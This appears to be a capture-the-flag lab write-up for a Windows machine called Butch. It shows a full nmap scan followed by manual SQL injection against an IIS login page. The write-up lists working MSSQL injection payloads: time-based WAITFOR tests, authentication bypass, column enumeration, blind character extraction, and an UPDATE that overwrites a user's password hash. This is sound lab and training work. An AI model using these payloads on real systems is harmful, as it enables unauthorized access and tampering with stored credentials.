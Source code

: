 #### Mind map

![Butch](https://user-images.githubusercontent.com/8998412/158007932-e61409eb-080e-48b8-b874-5d395cd7d659.png)

#### Enumeration

```
# Nmap 7.92 scan initiated Sun Feb 27 04:50:54 2022 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/kali/Documents/AutoRecon/results/192.168.184.63/scans/_full_tcp_nmap.txt -oX /home/kali/Documents/AutoRecon/results/192.168.184.63/scans/xml/_full_tcp_nmap.xml 192.168.184.63
Nmap scan report for 192.168.184.63
Host is up, received user-set (0.30s latency).
Scanned at 2022-02-27 04:50:54 EST for 477s
Not shown: 65528 filtered tcp ports (no-response)
PORT     STATE SERVICE       REASON          VERSION
21/tcp   open  ftp           syn-ack ttl 127 Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
25/tcp   open  smtp          syn-ack ttl 127 Microsoft ESMTP 10.0.17763.1
| smtp-commands: butch Hello [192.168.49.184], TURN, SIZE 2097152, ETRN, PIPELINING, DSN, ENHANCEDSTATUSCODES, 8bitmime, BINARYMIME, CHUNKING, VRFY, OK
|_ This server supports the following commands: HELO EHLO STARTTLS RCPT DATA RSET MAIL QUIT HELP AUTH TURN ETRN BDAT VRFY
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds? syn-ack ttl 127
450/tcp  open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Butch
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.92%E=4%D=2/27%OT=21%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=621B4B5B%P=x86_64-pc-linux-gnu)
SEQ(SP=102%GCD=1%ISR=109%TI=I%II=I%SS=S%TS=U)
OPS(O1=M54ENW8NNS%O2=M54ENW8NNS%O3=M54ENW8%O4=M54ENW8NNS%O5=M54ENW8NNS%O6=M54ENNS)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M54ENW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=258 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: butch; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-02-27T09:58:14
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 51234/tcp): CLEAN (Timeout)
|   Check 2 (port 45630/tcp): CLEAN (Timeout)
|   Check 3 (port 37138/udp): CLEAN (Timeout)
|   Check 4 (port 14133/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: 1s

TRACEROUTE (using port 21/tcp)
HOP RTT       ADDRESS
1   295.76 ms 192.168.49.1
2   295.78 ms 192.168.184.63

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 27 04:58:51 2022 -- 1 IP address (1 host up) scanned in 477.73 seconds

```

I find the website that runs on port 450 has SQL injection vulnerability by using the waiting test.

```SQL
'; WAITFOR DELAY '00:00:10'; --
```
![image](1)

Attempts to log in using the usernames ```admin``` and ```administrator``` failed.

```SQL
' or 1=1; --
```

![image](2)

Because we can't use automatic exploitation tools in the exam, I start doing it manually.

First, we must know the name of the field.

```SQL
' HAVING 1=1; --
```

![image](3)

```SQL
' GROUP BY users.username HAVING 1=1; --
```

![image](4)

```SQL
' GROUP BY users.username, users.password_hash HAVING 1=1; --
```

![image](5)

Now we know that the data table users has two fields username and password_hash.

Check how many data are in the data table users. We can see from the query below that there is only one data.

```SQL
'; IF (SELECT COUNT(*) FROM users) = 1 WAITFOR DELAY '00:00:05'; --
```
Finding the username ```butch```.

```SQL
-- e.g. guess username (ASCII)
'; IF (ASCII(LOWER(SUBSTRING((SELECT TOP 1 username FROM users), 1, 1))) > 97) WAITFOR DELAY '00:00:05'; --
'; IF (ASCII(LOWER(SUBSTRING((SELECT TOP 1 username FROM users), 1, 1))) > 98) WAITFOR DELAY '00:00:05'; -- 
-- and so on
```

Guessing the length of the password by the command below.

```SQL
'; IF (SELECT LEN(password_hash) FROM users) > 10 WAITFOR DELAY '00:00:05'; -- 
-- and so on
```

Finally, we know that the password length is 64, so it may have been hashed. Because of the length of the password so I guessed that may use SHA-256 hash. (Because manually to guess all the passwords too slow and may not be able to restore the original password we try to update directly.)

![image](6)

Now we update the password.

```SQL
-- 123456
'; UPDATE users SET password_hash = '8d969eef6ecad3c29a3a629280e686cf0c3f5d5a86aff3ca12020c923adc6c92' WHERE user = 'butch'; -- 
-- check if update is successful
'; IF (SELECT password_hash FROM users WHERE user = 'butch') = '8d969eef6ecad3c29a3a629280e686cf0c3f5d5a86aff3ca12020c923adc6c92' WAITFOR DELAY '00:00:05'; -- 
```

Login with username ```butch``` and password ```123456```.

![image](7)
